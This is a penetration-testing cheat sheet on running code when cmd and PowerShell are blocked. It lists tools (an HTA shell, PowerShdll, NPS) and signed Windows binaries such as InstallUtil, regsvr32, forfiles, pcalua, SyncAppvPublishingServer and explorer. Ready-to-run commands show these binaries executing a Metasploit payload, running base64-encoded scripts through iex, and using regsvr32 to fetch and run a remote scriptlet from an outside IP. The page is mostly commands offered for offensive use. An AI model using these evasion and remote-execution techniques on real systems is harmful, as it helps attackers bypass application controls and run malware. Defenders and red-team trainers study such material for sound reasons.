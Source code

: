 ```yaml
---
description: Different options to cmd and powershell
---
```


# Alternatives to command prompt

## HTA Shell

its text, so you could copy paste the text into notepad, save as a "shell.hta" using the quotes to enforce file extension 

then file open on notepad right click the shell.hta and open 

Code: 

{% embed url="https://raw.githubusercontent.com/nccgroup/OneLogicalMyth\_Shell/master/OneLogicalShell.hta" %}

## Powershell Alternatives

### PowerShdll

Link: 

[https://github.com/p3nt4/PowerShdll](https://github.com/p3nt4/PowerShdll) 

#### Example: 

`rundll32.exe PowerShdll.dll,main` 

#### dll mode: 

```text
rundll32 PowerShdll,main <script> 
rundll32 PowerShdll,main -h      Display this message 
rundll32 PowerShdll,main -f <path>       Run the script passed as argument 
rundll32 PowerShdll,main -w      Start an interactive console in a new window (Default) 
rundll32 PowerShdll,main -i      Start an interactive console in this console 
```

If you do not have an interactive console, use -n to avoid crashes on output 

Alternatives \(Credit to SubTee for these techniques\): 

```text
x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U PowerShdll.dll 
x64 - C:\Windows\Microsoft.NET\Framework64\v4.0.3031964\InstallUtil.exe /logfile= /LogToConsole=false /U PowerShdll.dll 
x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe PowerShdll.dll 
x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe PowerShdll.dll 
x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U PowerShdll.dll 
x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U PowerShdll.dll 
regsvr32 /s  /u PowerShdll.dll -->Calls DllUnregisterServer 
regsvr32 /s PowerShdll.dll --> Calls DllRegisterServer 
```

####  exe mode 

Usage: 

```text
PowerShdll.exe <script> 
PowerShdll.exe -h      Display this message 
PowerShdll.exe -f <path>       Run the script passed as argument 
PowerShdll.exe -i      Start an interactive console in this console (Default) 
```

Examples 

Run base64 encoded script 

`rundll32 Powershdll.dll,main [System.Text.Encoding]::Default.GetString([System.Convert]::FromBase64String("BASE64")) ^| iex` 

### PowerLine

Link: [https://github.com/fullmetalcache/PowerLine ](https://github.com/fullmetalcache/PowerLine%20)

### NPS

Not PowerShell - When powershell is blocked 

Link:  [https://github.com/Ben0xA/nps](https://github.com/Ben0xA/nps) 

#### Usage 

```text
nps.exe "{powershell single command}" 
nps.exe "& {commands; semi-colon; separated}" 
nps.exe -encodedcommand {base64_encoded_command} 
nps.exe -encode "commands to encode to base64" 
nps.exe -decode {base64_encoded_command} 
```

**Single Commands:** 

```text
 c:\Downloads>nps.exe Get-Date 
 12/18/2015 2:19:37 PM 
```

## CMD Alternatives

### cmd.dll

{% embed url="https://blog.didierstevens.com/2010/02/04/cmd-dll/" %}

Example:

`rundll32.exe cmd.dll,main` 

### forfiles

The “forfiles” is a command utility which can select multiple files and run a command on them. It is typically used in batch jobs but it could be abused to execute an arbitrary command or an executable. The parameters “/p” and “/m” are used to perform a search in the windows directory “System32” and on the mask “calc.exe” even though the default search mask is \*. Anything after the “/c” parameter is the actual command that is executed.

`forfiles /p c:\windows\system32 /m calc.exe /c C:\tmp\metasploit.exe`

Credit:[https://pentestlab.blog/2020/07/06/indirect-command-execution/](https://pentestlab.blog/2020/07/06/indirect-command-execution/)

### pcalua

The program compatibility assistant is a windows utility that runs when it detects a software with compatibility issues. The utility is located in “C:\Windows\System32” and can execute commands with the “-a” argument.

`pcalua.exe -a C:\tmp\metasploit.exe`

### SyncAppvPublishingServer

The “SyncAppvPublishingServer” initiates the Microsoft application virtualization \(App-V\) publishing refresh operation. However it can be used as a non-directly method to execute commands for evasion. In the example below the execution occurs from PowerShell and the “Start-Process” cmdlet is used to run the executable.

`SyncAppvPublishingServer.vbs "n; Start-Process C:\tmp\metasploit.exe"`

It is also possible to execute a malicious payload from a remote location by using the “regsvr32” method since the “SyncAppvPublishingServer” will execute anything that is enclosed in the double quotes.

```text
SyncAppvPublishingServer.vbs "Break; regsvr32 /s /n /u /i:http://192.168.254.158:8080/jnQl1FJ.sct scrobj.dll"
```

### explorer.exe

The “explorer.exe” can be utilized as a method of execution. Furthermore, the executed payload will create a process on the system that will have as a parent process “explore.exe” instead of “cmd.exe“.

```text
explorer.exe C:\tmp\metasploit.exe 
explorer.exe /root,"C:\tmp\metasploit.exe" 
```

